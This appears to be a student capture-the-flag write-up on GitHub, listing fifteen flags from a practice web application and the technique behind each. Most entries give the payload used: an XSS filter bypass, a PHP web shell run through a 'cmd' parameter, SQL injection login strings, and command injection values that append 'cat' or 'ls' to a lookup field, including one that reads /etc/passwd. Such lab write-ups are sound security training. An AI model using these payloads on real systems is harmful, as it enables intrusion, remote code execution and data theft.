

# Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: 

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>

Flag 3:
Method: Cross-site scripting (XSS)
Payload: 

Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that

